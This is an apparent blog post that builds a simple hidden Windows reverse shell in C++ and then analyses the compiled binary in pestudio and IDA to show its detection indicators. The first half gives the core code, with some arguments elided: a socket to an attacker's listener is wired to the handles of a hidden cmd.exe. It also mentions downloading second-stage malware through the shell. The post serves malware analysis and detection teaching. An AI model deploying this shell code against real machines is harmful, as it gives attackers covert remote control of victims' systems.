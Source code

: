 ```yaml
---
layout: post
title: Malware Functionality Analysis: Simple Reverse Shell
---
```


# Malware Functionality Analysis: Simple Reverse Shell

## Implementing the Reverse Shell

Let's first analyse what we require to develop this functionality.

1. A socket with which commands and communication will be routed to the server,
2. A `cmd.exe` process that acts as the shell,
3. A listening server on the attacking machine (netcat will be sufficient enough for this).

---

### Creating the Connection

I will keep this section brief because creating and connecting a socket is a trivial procedure and there are many tutorials out there explaining how it can be done.

```c++
SOCKET tcpConnect(std::string address, std::string port) {
    getaddrinfo(address.c_str(), port.c_str(), ...);
    
    /*
     * Create a TCP socket connection.
     *
     * It's important that we use WSASocket here instead of the normal socket 
     * function and without the WSA_FLAG_OVERLAPPED flag.
     */
    SOCKET s = WSASocket(..., SOCK_STREAM, IPPROTO_TCP, ...);
    
    connect(s, ...);
    
    return s;
}
```

Note that we require the [`WSASocket`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms742212(v=vs.85).aspx) function because the (non-overlapped) socket will be required to work with I/O redirection with the shell's handles.

---

### Creating the Shell Process

The `cmd.exe` process acts as the shell so the application must create this as a separate process using the [`CreateProcess`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms682425(v=vs.85).aspx) function specifying the executable's path and also setting the stdin/stdout/stderr handles to the socket specified in the [`STARTUPINFO structure`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms686331(v=vs.85).aspx).

```c++
void createShell(void) {
    SOCKET s = tcpConnect(ADDRESS, PORT);
    
    STARTUPINFOA si;
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    
    /*
     * We specify what values we want to use.
     * STARTF_USESTDHANDLES specifies that we want to use stdin/stdout/stderr.
     * STARTF_USESHOWWINDOW specifies that we want to control how the window appears.
     */
    si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
    
    /*
     * Set stdin/stdout/stderr to the socket.
     */
    si.hStdError = si.hStdInput = si.hStdOutput = (HANDLE)s;
    
    /*
     * The process's window will not be shown.
     */
    si.wShowWindow = SW_HIDE;
    
    PROCESS_INFORMATION pi;
    ZeroMemory(&pi, sizeof(pi));
    
    /*
     * Retrieve the path of the cmd.exe executable's path.
     * We use this so that it will systemmatically retrieve the 
     * system directory which may not always be "C:\Windows\system32".
     *
     * NOTE: Depending on your application's architecture, this
     * value will change under the hood, i.e. if your application is 
     * a 32-bit process, it will get the SYSWOW64 directory whereas 
     * the 64-bit counterpart will get the system32 directory. Make 
     * sure your application exists in its corresponding directory 
     * when doing something like this. Alternatively, you can force 
     * to not swap to SYSWOW64 by explicitly calling 
     * Wow64DisableWow64FsRedirection.
     * (https://msdn.microsoft.com/en-us/library/windows/desktop/aa365743(v=vs.85).aspx).
     */
     char szSysDirectory[MAX_PATH + 1];
     GetSystemDirectoryA(szSysDirectory, MAX_PATH);
     
     /*
      * Append "\cmd.exe" onto the system directory.
      */
     std::string cmdExe = szSysDirectory;
     cmdExe += "\\cmd.exe";
     
     /*
      * Create the cmd.exe process.
      * Make sure that the process inherits the handles.
      */
     CreateProcessA(cmdExe.c_str(), ..., true, 0, ..., &si, &pi);
     
     /*
      * Block until the cmd.exe process has completed.
      */
     WaitForSingleObject(pi.hProcess, INFINITE);
}
```

Once the `cmd.exe` process has been created, we call [`WaitForSingleObject`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms687032(v=vs.85).aspx) to block the application until the shell process has finished execution.

---

### Demonstration

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample.png)

Note that there is no window for the `cmd.exe` shell process spawned from the application because we used the `SW_HIDE` value for the `STARTUPINFO.wShowWindow` member. It functions nicely using native utilities and can even be used to call PowerShell albiet a little buggy. Using a single PowerShell one-liner, a 2nd-stage malware can be downloaded and invoked on the system.

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample1.png)

---

### Static Analysis

Looking at the strings under pestudio, there exists some suspicious import and miscellaneous strings that relate back to the shell creation.

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample2.png)

Obviously, the application shows signs of networking activity via the imported Winsock library (ws2_32.dll) and its functions. On top of that, it shows the `\cmd.exe` string that identifies that it may interact with it in some way. To confirm that it is being used as a reverse shell we must dig into the disassembly.

Opening up the binary in IDA and following the Winsock library functions shows the following disassembly:

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample3.png)

Following the references of this routine's address presents the following disassembly (heavily commented for clarity):

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample4.png)

(Small note: the `var_34` above the zeroing of the `PROCESS_INFORMATION` structure is the `STARTUPINFO.wShowWindow` member.)

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample5.png)

Obviously, the disassembly nicely follows that of the C++ code implementation listed above. The main focus is that a socket was created in which it was used to set the `STARTUPINFO.hStdInput`, `STARTUPINFO.hStdOuput` and `STARTUPINFO.hStdError` values of a `cmd.exe`'s `CreateProcess`. This very specific program execution flow is what identifies this type of reverse shell.
